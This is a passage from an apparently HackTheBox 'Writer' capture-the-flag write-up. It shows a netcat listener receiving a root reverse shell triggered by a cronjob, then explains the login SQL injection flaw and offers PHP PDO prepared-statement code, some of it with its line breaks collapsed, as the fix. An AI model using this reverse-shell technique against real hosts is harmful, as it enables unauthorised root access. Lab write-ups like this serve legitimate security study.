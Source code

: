 When the cronjob runs again, a reverse shell is returned as the root user\:

{% highlight bash %}
┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]└──╼ $nc -lvnp 9001  
listening on [any] 9001 ...  
connect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 56068  
/bin/sh\: 0\: can't access tty\; job control turned off  
# whoami  
root
{% endhighlight %}

Post Exploitation Analysis
==========================

* * *

This section goes into further detail about the vulnerabilities of the target and how to mitigate them. Note that the mitigations shown in this section are incomplete pieces of code, however they are secure implementations of the desired result.

SQLi Mitigation (PDO)
---------------------

This machine contained multiple vulnerabilities, starting with the SQL injection in the /administrative page. The vulnerability lies in the following SQL statement that is performed on the user’s query\:

{% highlight sql %}
"Select \* From users Where username = '%s' And password = '%s'" % (username, password)
{% endhighlight %}

This insecure SQL statement allows an attacker to add a single quote in their username and then perform an arbitrary SQL statement of their choosing. To mitigate SQL injection attacks, the current recommendation is to use PDO (PHP Data Objects). The following code does not directly pass the user input into the SQL statement. Rather, using PDO tells the server what the SQL query and the user-inputted data are. This is successfully performed because the instruction and user-input are sent separately to the database\:

{% highlight php %}
<?php  
  
try {  
  
 $conn = new PDO("mysql\:host=$servername\;dbname=$dbname", $db_username, $db_password)\; // set the PDO error mode to exception $conn->setAttribute(PDO\:\:ATTR_ERRMODE, PDO\:\:ERRMODE_EXCEPTION)\; // prepare sql and bind parameters        $query = "INSERT INTO users (username,password)  VALUES(\:username,\:password)"\;  
        $statement = $conn->prepare($query)\;  
        $statement->execute(array(   '\:username'=> $username,   '\:password'=> $password  
        ))\;  
  
} catch(PDOException $e) { echo "Error\: " . $e->getMessage()\;  
}  
$conn = null\;  
  
?>
{% endhighlight %}
